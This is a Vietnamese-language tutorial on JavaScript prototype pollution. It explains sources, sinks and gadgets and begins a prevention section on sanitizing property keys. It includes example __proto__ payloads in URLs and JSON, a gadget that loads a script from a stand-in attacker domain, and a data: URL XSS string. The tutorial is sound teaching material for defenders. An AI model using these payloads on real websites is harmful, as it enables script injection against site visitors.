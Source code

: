 ## Prototype Pollution là gì?
Prototype Pollution là một lỗ hổng trong JavaScript, cho phép kẻ tấn công thêm các thuộc tính tùy ý vào các prototype của đối tượng toàn cục. Những thuộc tính này có thể được các đối tượng do người dùng định nghĩa kế thừa.

![alt text](image.png)

Dù prototype pollution thường không phải là một lỗ hổng có thể khai thác độc lập, nhưng nó cho phép kẻ tấn công kiểm soát các thuộc tính của đối tượng mà bình thường sẽ không thể truy cập được. Nếu ứng dụng xử lý các thuộc tính do kẻ tấn công kiểm soát theo cách không an toàn, lỗ hổng này có thể được kết hợp với các lỗ hổng khác.

- Trong JavaScript phía client, điều này thường dẫn đến DOM XSS.
- Trong JavaScript phía server, prototype pollution có thể dẫn đến remote code execution (RCE).

## Nguyên nhân lỗ hổng Prototype Pollution
Lỗ hổng này thường xuất hiện khi một hàm JavaScript thực hiện việc merge đệ quy (`recursive merge`) một đối tượng có chứa các thuộc tính do người dùng kiểm soát vào một đối tượng hiện có mà không kiểm tra hoặc lọc các key. Điều này cho phép kẻ tấn công chèn thuộc tính với key đặc biệt như `__proto__`, cùng với các thuộc tính lồng ghép tùy ý.

Vì `__proto__` có ý nghĩa đặc biệt trong JavaScript, thao tác merge này có thể gán các thuộc tính lồng ghép vào prototype của đối tượng thay vì chính đối tượng đó. Do đó, kẻ tấn công có thể "nhiễm độc" prototype bằng các thuộc tính chứa giá trị độc hại, dẫn đến việc ứng dụng sử dụng chúng theo cách nguy hiểm.

Lỗ hổng này có thể xảy ra với bất kỳ prototype nào, nhưng thường gặp nhất ở prototype toàn cục mặc định `Object.prototype`.

Khai thác **Prototype Pollution** cần những gì?
- Nguồn gây ô nhiễm (Source):
Đầu vào cho phép kẻ tấn công tiêm các thuộc tính tùy ý vào các prototype.

- Sink:
Hàm JavaScript hoặc DOM element nào đó có thể dẫn đến thực thi mã tùy ý.

- Gadget có thể khai thác:
Thuộc tính được truyền vào sink mà không được lọc hoặc kiểm tra hợp lệ.

## Prototype pollution sources
Prototype pollution sources là bất kỳ đầu vào nào mà người dùng có thể kiểm soát và cho phép thêm các thuộc tính tùy ý vào prototype của đối tượng. Các nguồn phổ biến bao gồm:

- URL thông qua query string hoặc fragment string (hash)
- Dữ liệu JSON
- Web messages

### Prototype Pollution qua URL
Xem xét URL sau, nơi query string được kẻ tấn công tạo:
```js
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```

Khi phân tích query string thành các cặp `key:value`, trình phân tích URL có thể coi `__proto__` như một chuỗi ký tự tùy ý. Tuy nhiên, nếu các key và value này được merge vào một đối tượng hiện có, kết quả có thể như sau:

```js
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
Nhưng thực tế, phép gán đệ quy có thể thực hiện một câu lệnh như sau:
```js
targetObject.__proto__.evilProperty = 'payload';
```

Khi đó, JavaScript coi `__proto__` là getter cho prototype, khiến `evilProperty` được gán vào prototype của đối tượng thay vì chính đối tượng đó.

Nếu đối tượng mục tiêu sử dụng prototype mặc định `Object.prototype`, mọi đối tượng trong runtime JavaScript sẽ kế thừa thuộc tính `evilProperty`, trừ khi chúng đã có thuộc tính trùng key.

### Prototype Pollution qua JSON Input
Dữ liệu đầu vào do người dùng kiểm soát thường được tạo từ chuỗi JSON thông qua `JSON.parse()`, trong đó mọi key, kể cả `__proto__`, đều được xử lý như chuỗi ký tự tùy ý.

Ví dụ, kẻ tấn công có thể chèn JSON độc hại sau:
```js
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

Khi được chuyển thành đối tượng JavaScript qua `JSON.parse()`, kết quả sẽ có thuộc tính với key `__proto__`:
```js
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
objectFromJson.hasOwnProperty('__proto__'); // true
```

Nếu đối tượng được tạo qua `JSON.parse()` được merge vào một đối tượng hiện có mà không lọc key, sẽ xảy ra `prototype pollution`, giống như trường hợp với URL.

## Prototype Pollution Sinks
`Prototype pollution sink` là bất kỳ hàm JavaScript hoặc phần tử DOM nào mà bạn có thể truy cập thông qua prototype pollution, cho phép bạn thực thi JavaScript tùy ý hoặc lệnh hệ thống.

Chúng ta đã đề cập chi tiết về một số sink phía client trong chủ đề về DOM XSS.

Prototype pollution cho phép bạn kiểm soát các thuộc tính vốn không thể truy cập được, từ đó có khả năng khai thác nhiều sink bổ sung trong ứng dụng mục tiêu. Các nhà phát triển không quen thuộc với prototype pollution có thể cho rằng những thuộc tính này không thể bị người dùng kiểm soát, dẫn đến việc lọc và xử lý dữ liệu đầu vào không đầy đủ.


## Prototype Pollution Gadgets
Gadget là công cụ biến lỗ hổng prototype pollution thành một khai thác thực tế. Gadget là bất kỳ thuộc tính nào thỏa mãn:

- Được ứng dụng sử dụng một cách không an toàn, chẳng hạn truyền vào một sink mà không qua lọc hoặc kiểm tra.
- Có thể bị kẻ tấn công kiểm soát thông qua prototype pollution, tức là đối tượng phải có khả năng kế thừa phiên bản độc hại của thuộc tính được thêm vào prototype bởi kẻ tấn công.

Một thuộc tính không thể trở thành gadget nếu nó được định nghĩa trực tiếp trên đối tượng. Khi đó, phiên bản thuộc tính của đối tượng sẽ ưu tiên hơn phiên bản độc hại được thêm vào prototype. Các trang web bảo mật cao có thể thiết lập prototype của đối tượng là `null`, ngăn chặn việc kế thừa bất kỳ thuộc tính nào.

### Ví dụ về công cụ tấn công prototype pollution
Nhiều thư viện JavaScript chấp nhận một đối tượng mà nhà phát triển có thể sử dụng để thiết lập các tùy chọn cấu hình khác nhau. Mã thư viện kiểm tra xem nhà phát triển có thêm các thuộc tính cụ thể vào đối tượng này hay không, và nếu có, nó điều chỉnh cấu hình tương ứng. Nếu một thuộc tính đại diện cho một tùy chọn cụ thể không tồn tại, thư viện thường sử dụng tùy chọn mặc định được định nghĩa trước. Ví dụ đơn giản:
```js
let transport_url = config.transport_url || defaults.transport_url;
```

Bây giờ, giả sử mã thư viện sử dụng `transport_url` để thêm một tham chiếu script vào trang:
```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```
Nếu các nhà phát triển trang web không thiết lập thuộc tính `transport_url` trên đối tượng `config`, đây là một công cụ tiềm năng. Trong trường hợp kẻ tấn công có thể gây ô nhiễm `Object.prototype` toàn cục với thuộc tính `transport_url` của riêng họ, thuộc tính này sẽ được thừa kế bởi đối tượng `config` và được đặt làm giá trị `src` của script, trỏ đến một domain do kẻ tấn công kiểm soát.

Nếu prototype có thể bị ô nhiễm thông qua một tham số truy vấn, chẳng hạn, kẻ tấn công chỉ cần lừa nạn nhân truy cập vào một URL được chế tạo đặc biệt để trình duyệt của họ tải một file JavaScript độc hại từ domain của kẻ tấn công:

```js
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
Bằng cách cung cấp một URL dạng `data:`, kẻ tấn công cũng có thể nhúng trực tiếp payload XSS vào chuỗi truy vấn như sau:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Lưu ý rằng phần `//` ở cuối ví dụ trên chỉ dùng để comment suffix `/example.js` đã được mã hóa sẵn.

## HOW TO PREVENT

Chúng tôi khuyên bạn nên vá mọi lỗ hổng ô nhiễm nguyên mẫu mà bạn xác định được trên trang web của mình, bất kể chúng có đi kèm với các tiện ích dễ khai thác hay không. Ngay cả khi bạn tự tin rằng mình không bỏ sót bất kỳ lỗi nào, cũng không có gì đảm bảo rằng các bản cập nhật trong tương lai cho mã của bạn hoặc bất kỳ thư viện nào bạn sử dụng sẽ không giới thiệu các tiện ích mới, mở đường cho các cuộc khai thác khả thi.

Trong phần này, chúng tôi sẽ cung cấp một số lời khuyên cấp cao về một số biện pháp bạn có thể thực hiện để bảo vệ trang web của mình khỏi các mối đe dọa mà chúng tôi đã đề cập trong phòng thí nghiệm của mình. Chúng tôi cũng sẽ đề cập đến một số cạm bẫy phổ biến cần tránh.

### Sanitizing property keys

Một trong những cách rõ ràng nhất để ngăn chặn lỗ hổng ô nhiễm nguyên mẫu là khử trùng khóa thuộc tính trước khi hợp nhất chúng vào các đối tượng hiện có.